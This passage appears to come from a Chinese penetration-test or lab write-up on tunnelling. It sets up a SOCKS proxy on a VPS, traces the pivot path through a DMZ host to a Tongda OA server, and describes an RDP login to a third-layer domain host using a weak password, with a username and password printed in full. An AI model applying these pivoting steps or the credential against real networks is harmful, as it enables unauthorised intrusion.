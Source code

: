 继续在 VPS 开启 Socks 端口 9001，方便通过 VPS 连接到 OA 网络内。

```bash
(node 1) >> socks 9001 proxy proxys
[*] Trying to listen on 0.0.0.0:9001......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 1) >>
```

现在访问 9001 流量走向是：

```bash
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9001) -> VPS Admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>) -> 第二层网络-通达 OA(192.168.52.30:10000)
```

*建立第三层隧道*

通过搜集信息发现，第二层网络 - 通达 OA 也是双网卡机器，能通信第三层网络。通过扫描第三层网络主机，发现域内单机 192.168.93.40 开放 RDP，使用弱口令成功登录。

```bash
WHOAMIANONY\moretz
Moretz2021
```

![验证第三层代理 -1.png](assets/1708583756-06805aefcd59df6df528753d1a7a23d0.png)

